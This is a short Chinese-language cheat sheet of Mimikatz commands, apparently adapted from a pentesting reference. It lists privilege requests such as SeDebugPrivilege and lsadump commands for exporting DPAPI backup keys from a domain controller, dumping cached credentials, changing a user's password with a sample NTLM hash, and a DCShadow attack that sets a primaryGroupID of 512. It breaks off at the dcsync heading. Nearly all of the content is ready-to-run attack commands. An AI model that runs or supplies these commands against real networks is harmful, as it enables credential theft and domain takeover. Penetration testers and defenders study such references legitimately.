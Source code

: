 此文档参考内容见[这里](https://tools.thehacker.recipes/mimikatz/modules)

# privilege
```
privilege::backup requests the backup privilege (SeBackupPrivilege)
privilege::debug requests the debug privilege (SeDebugPrivilege)
privilege::driver requests the load driver privilege (SeLoadDriverPrivilege)
privilege::id requests a privilege by its id
privilege::name requests a privilege by its name
privilege::restore requests the restore privilege (SeRestorePrivilege)
privilege::security requests the security privilege (SeSecurityPrivilege)
privilege::sysenv requests the system environment privilege (SeSystemEnvironmentPrivilege)
privilege::tcb requests the tcb privilege (SeTcbPrivilege)
```

# lsadump模块

## backupkeys
从域控制器转储DPAPI backup keys
```
mimikatz # lsadump::backupkeys /export
```

## cache
从注册表dump出缓存凭据
```
mimikatz # lsadump::cache
```

## changentlm
可用于更改用户的密码
```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
```

## dcshadow
执行dcshadow攻击

修改组id
```
mimikatz # lsadump::dcshadow /object=optimus /attribute=primaryGroupID /value=512
```

执行修改
```
mimikatz # lsadump::dcshadow /push
```

## dcsync
请求域控同步从而dump出哈希
